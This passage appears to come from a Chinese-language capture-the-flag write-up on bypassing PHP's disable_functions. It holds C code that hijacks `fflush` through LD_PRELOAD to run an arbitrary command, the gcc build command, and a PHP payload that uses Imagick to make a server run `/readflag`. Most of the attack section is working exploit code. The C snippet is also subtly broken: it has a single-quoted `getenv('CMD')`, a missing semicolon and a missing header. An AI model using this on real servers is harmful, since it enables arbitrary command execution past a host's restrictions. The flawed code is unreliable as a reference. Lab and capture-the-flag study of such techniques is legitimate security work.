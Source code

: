 ![](/assets/images/move/2019-11-20-10-02-15.png)

从符号中可以看出他调用的库函数，选择 `fflush` 这个函数来进行劫持：

```c++
#include <string.h>
void payload() {
    const char* cmd = getenv('CMD')
    system(cmd);
}
int fflush() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

编译生成共享库对象：

```bash
gcc -shared -fPIC test.c -o hack.so
```

Payload:

```php
putenv('LD_PRELOAD=/tmp/3accb9900a8be5421641fb31e6861f33/hack.so'); 
putenv('CMD=/readflag > /tmp/3accb9900a8be5421641fb31e6861f33/flag.txt');
$img = new Imagick('/tmp/3accb9900a8be5421641fb31e6861f33/1.ept');
```
